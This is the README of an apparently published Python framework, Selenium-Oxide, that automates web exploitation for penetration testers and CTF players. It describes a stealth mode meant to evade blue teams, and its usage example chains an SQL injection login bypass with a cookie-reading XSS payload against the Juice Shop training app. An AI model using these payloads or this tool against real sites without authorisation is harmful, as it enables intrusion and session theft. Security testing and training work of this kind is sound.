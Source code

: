 # Selenium-Oxide

A Selenium boilerplate for automating web exploits. Use responsibly and ethically.

Selenium Oxide is a web exploitation automation framework designed
around the needs of penetration testers and attack/defense CTF players
alike! Whether you need to quickly make an automated
exploit for web apps, a stealthy automation tool for attack/defense,
or a springboard for other exploit development, this is the tool for you!

The module offers a slimmer API than standard Selenium, and has
multiple handy features, such as:

* Stealth functionality
* Builder pattern exploit writing
* Automatic browser binary configuration
* Cookie dumping and manipulation
* Proxy support
* Chrome support
* Arbitrary selector support
* Alert waiting
* User generation
* API interface
* JavaScript execution

## Why the Name?

When making this module I initially struggled with
what to call it. I happened to look at another module,
named Selenium Wire, and decided yeah, you know what,
using Selenium in the name is fair game. Selenium Oxide
sounded cool, and when I looked up information on the
chemical it read that it was at least somewhat dangerous.

A dangerous version of Selenium. Checks out for an offsec
platform.

## Getting Started

Like regular Selenium, you're going to need a browser binary
and geckodriver.

NOTE: ***Selenium Oxide Chrome support is currently untested. Proceed at your own risk.***

Selenium Oxide supports both Firefox and Chrome.

### Firefox

To simplify things, I've provided an install script for Firefox that will download compatible
versions of Firefox and Geckodriver. These *should* work for most cases, however I recommend
submitting an issue in the event you find a use case for older or more modern versions.

```bash
sudo ./install_firefox.sh
```

Otherwise, you can manually install versions of Firefox and Geckodriver at your own discretion.
If you ever find yourself needing to do that, I'm assuming you don't need instructions for that.

### Chrome

Chrome installation is currently undocumented, however you will need the Chrome Webdriver as well as the Chrome binary itself.

### Final Steps

Next, just install from Pip!

```bash
    pip install selenium-oxide
```

If that doesn't work, you may have an outdated version of Selenium (this library needs a version compatible with 4.1.0).
If so:

```bash
    pip install selenium~=4.1.0
```

That should install everythng you need.

## Using Selenium Oxide

Selenium Oxide is a builder-pattern exploit automation
framework, designed to provide a more immediately usable
method of exploit automation before resorting
to using the network tab. The ability to use proxies
makes the tool extremely useful as a ground layer for
API-focused exploit development as well.

### The Basics

First, import the module:

```python
from selenium_oxide import ExploitBuilder
```

The ExploitBuilder constructor can take something as simple as a URL to test, or you can add additional options:

```python
exploit = ExploitBuilder(
    base_url="https://juice-shop.herokuapp.com",
    stealth=False, # if True, enable Stealth Mode
    browser="firefox", # either "firefox" or "chrome"
    use_proxy=False, # if you want to use a proxy, enable this
    proxy_address="127.0.0.1:8080", # defaults to 127.0.0.1:8080
    headless=False, # if you want headless Selenium enable this
    **options       # other options, see ExploitBuilder docs
)
```

Stealth mode is interesting, allowing the user to avoid alerting blue teams with multiple rapid requests. As of 2.0.0, it uses the length of user inputs to determine how long its sleep time is before writing text in input boxes. There is some randomness thrown in as well, to really throw off blue teams. However, this may be painfully slow while you're waiting on the input to appear, so do keep an eye on your terminal for crashes.
Adjustable stealth timings may appear in a future release.

Proxy support is a 1.0.0 addition, allowing the user to use proxies (such as ZAP or Burp Suite) to track their HTTP requests and responses. This is handy for mapping out APIs and finding potential additional vulnerabilities.

To start building exploits, you can chain functions together!

```python
(
    exploit.get("/")
        .login("/#/login", "admin' OR 1=1;--", "password", '//*[@id="email"]', '//*[@id="password"]', '//*[@id="loginButton"]')
        .type_entry('//*[@id="mat-input-0"]', "<img src=\"http://url.to.file.which/not.exist\" onerror=alert(document.cookie);>")
        .send_enter('//*[@id="mat-input-0"]')
)
```

However, some functions, like `get_cookies` or `get_cookie_by_name` cannot be chained into
other functions, and further exploitation must begin on a new line.
